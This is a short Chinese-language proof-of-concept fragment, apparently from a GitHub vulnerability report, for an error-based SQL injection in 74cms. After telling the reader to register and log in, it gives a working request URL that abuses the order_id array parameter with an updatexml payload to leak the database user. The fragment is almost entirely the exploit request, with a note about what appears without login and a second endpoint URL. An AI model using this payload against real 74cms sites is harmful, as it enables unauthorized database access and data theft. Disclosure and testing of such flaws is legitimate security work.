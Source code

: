 ![image](img/4327ed803dd1f61baa2a84785d0d7e28.png)

注册完成以后登录前台即可

```
url: http://74cms.test/index.php?m=&c=CompanyService&a=order_pay_finish&order_id[0]=match&order_id[1][0]=aaaaaaa") and updatexml(1,concat(0x7e,(select user())),0) -- a

如果不登录的话，会显示这个样子
url:http://74cms.test/index.php?m=&c=AjaxPersonal&a=company_focus 
```

![image](img/b3e542bbc81b83569ab58ff5140c8ae0.png)
